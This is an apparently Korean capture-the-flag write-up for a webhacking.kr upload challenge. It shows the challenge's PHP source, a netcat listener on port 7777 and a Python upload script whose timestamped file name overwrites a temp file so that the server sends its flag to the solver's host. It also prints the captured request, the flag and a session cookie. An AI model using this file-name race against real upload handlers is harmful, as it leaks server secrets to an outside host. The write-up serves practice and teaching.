


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

view-source를 보면 업로드된 파일 이름에 접속한 IP를 적고 저장한 뒤, 접속 시간 기준 파일을 열어 적힌 IP:7777로 접속한다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  $query = "select flag from challenge where idx=37";
  $flag = mysqli_fetch_array(mysqli_query($db,$query))['flag'];
  $time = time();

  $p = fopen("./tmp/tmp-{$time}","w");
  fwrite($p,"127.0.0.1");
  fclose($p);

  $file_nm = $_FILES['upfile']['name'];
  $file_nm = str_replace("<","",$file_nm);
  $file_nm = str_replace(">","",$file_nm);
  $file_nm = str_replace(".","",$file_nm);
  $file_nm = str_replace("/","",$file_nm);
  $file_nm = str_replace(" ","",$file_nm);

  if($file_nm){
    $p = fopen("./tmp/{$file_nm}","w");
    fwrite($p,$_SERVER['REMOTE_ADDR']);
    fclose($p);
  }

  echo "<pre>";
  $dirList = scandir("./tmp");
  for($i=0;$i<=count($dirList);$i++){
    echo "{$dirList[$i]}\n";
  }
  echo "</pre>";

  $host = file_get_contents("tmp/tmp-{$time}");

  $request = "GET /?{$flag} HTTP/1.0\r\n";
  $request .= "Host: {$host}\r\n";
  $request .= "\r\n";

  $socket = fsockopen($host,7777,$errstr,$errno,1);
  fputs($socket,$request);
  fclose($socket);

  if(count($dirList) > 20) system("rm -rf ./tmp/*");
?>
... 생략 ...
```

netcat을 이용하여 포트포워딩 이후 리스닝하자.

```shell
nc64.exe -nvlp 7777
listening on [any] 7777 ...
```

파일 업로드 스크립트를 실행하자.

```python
import requests
import time
import math

CHALLENGE   = 'https://webhacking.kr/challenge/web-18/'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
file_name   = 'tmp-'+str(math.trunc(time.time()))
files       = {'upfile':(file_name,'Hello world')}
req         = requests.post(CHALLENGE, headers=headers, files=files)
netcat을 보면 FLAG를 획득할 수 있다.

connect to [192.168.0.32] from (UNKNOWN) [202.182.106.159] 32964
GET /?FLAG{well...is_it_funny?_i_dont_think_so...} HTTP/1.0
Host: 61.251.215.194
```

FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**FLAG{well...is_it_funny?_i_dont_think_so...}**